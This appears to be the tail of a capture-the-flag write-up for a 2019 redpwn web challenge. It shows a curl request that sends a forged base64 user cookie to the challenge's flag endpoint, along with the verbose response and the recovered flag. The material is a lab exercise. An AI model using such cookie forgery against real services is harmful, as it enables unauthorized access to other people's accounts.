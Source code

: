 The answer was `Z2hhc3Q6OTQ5NDY`. Use it as user ID and browsing to `api/flag` gave us the flag:

```
$ curl -H 'Cookie: user=Z2hhc3Q6OTQ5NDY'  http://chall.2019.redpwn.net:8008/api/flag -v
*   Trying 34.223.35.192...
* TCP_NODELAY set
* Connected to chall.2019.redpwn.net (34.223.35.192) port 8008 (#0)
> GET /api/flag HTTP/1.1
> Host: chall.2019.redpwn.net:8008
> User-Agent: curl/7.52.1
> Accept: */*
> Cookie: user=Z2hhc3Q6OTQ5NDY
>
< HTTP/1.1 200 OK
< Date: Thu, 15 Aug 2019 17:09:37 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
<
* Curl_http_done: called premature == 0
* Connection #0 to host chall.2019.redpwn.net left intact
flag{th3_AdM1n_ne3dS_A_n3W_nAme}
```

FLAG: **flag{th3_AdM1n_ne3dS_A_n3W_nAme}**

EOF

